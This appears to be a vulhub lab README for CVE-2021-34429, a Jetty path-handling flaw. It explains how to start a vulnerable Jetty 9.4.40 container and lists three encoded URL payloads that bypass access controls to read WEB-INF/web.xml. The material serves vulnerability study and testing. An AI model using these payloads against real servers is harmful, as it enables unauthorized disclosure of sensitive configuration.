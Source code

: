 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-34429)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty 9.4.40 fixed an ambiguous paths information disclosure vulnerability [CVE-2021-28164](https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28164), CVE-2021-34429 is a variation and bypass of it.

There are 3 types of payload that exfiltrate the content of `WEB-INF/web.xml`:

- Unicode based URL encoded: `/%u002e/WEB-INF/web.xml`
- `\0` with `.` bug:  `/.%00/WEB-INF/web.xml`
- `\0` with `..` bug: `/a/b/..%00/WEB-INF/web.xml`

The vulnerability affects the Jetty 9.4.37-9.4.42, 10.0.1-10.0.5, 11.0.1-11.0.5.

References:

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-vjv5-gp2w-65vm
- https://xz.aliyun.com/t/10039

## Vulnerable Application

Execute the following command to start a Jetty 9.4.40 server.

```
docker compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use payload `/%u002e/WEB-INF/web.xml` to bypass the restriction:

![](2.png)
